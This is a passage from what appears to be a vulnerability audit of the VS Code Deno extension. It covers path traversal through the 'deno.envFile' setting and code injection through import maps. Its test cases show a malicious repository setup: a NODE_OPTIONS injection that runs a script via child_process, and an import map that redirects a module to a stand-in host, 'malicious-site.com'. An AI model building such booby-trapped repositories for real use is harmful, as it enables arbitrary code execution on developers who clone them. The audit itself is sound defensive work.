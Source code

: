 There's no validation that the constructed path stays within the workspace boundaries. If `denoEnvFile` is something like `../../../malicious/env`, it will read a file outside the workspace.

The critical part is what happens with these environment variables. They're passed directly to the Deno process:
```javascript
const exec = new vscode.ProcessExecution(
  process,
  args,
  { env: env },
);
```

By controlling environment variables, an attacker can inject malicious commands or modify the execution flow of legitimate commands.

### Security Test Case
To verify this vulnerability:

1. Create a malicious repository with the following structure:
   - `.vscode/settings.json`:
     ```json
     {
       "deno.enable": true,
       "deno.envFile": "../../../tmp/malicious_env"
     }
     ```

2. Create a malicious environment file at `/tmp/malicious_env` with:
   ```
   NODE_OPTIONS=--require=/tmp/malicious.js
   ```

3. Create `/tmp/malicious.js` with code to execute:
   ```javascript
   require('child_process').exec('calc.exe'); // For Windows demo
   ```

4. Have the victim:
   - Clone the malicious repository
   - Open it in VSCode with the Deno extension installed
   - Trigger any Deno task (e.g., using the "Deno: Run" command or clicking a test code lens)

5. When the task runs, the Deno process will inherit the malicious environment variables, which will cause arbitrary code execution via the NODE_OPTIONS environment variable.

## 6. Code Injection through Import Maps

### Description
The Deno extension allows specifying an import map through the `deno.importMap` setting. Import maps provide a way to redirect module specifiers, which could be exploited to load malicious code. When executing Deno commands, the extension passes the import map to Deno, which could lead to execution of malicious code.

Step by step exploitation:
1. Attacker creates a repository with a `.vscode/settings.json` file containing:
   ```json
   {
     "deno.importMap": "path/to/malicious-import-map.json"
   }
   ```
2. The malicious import map redirects trusted imports to malicious code:
   ```json
   {
     "imports": {
       "trusted-module": "https://malicious-site.com/malicious-code.js"
     }
   }
   ```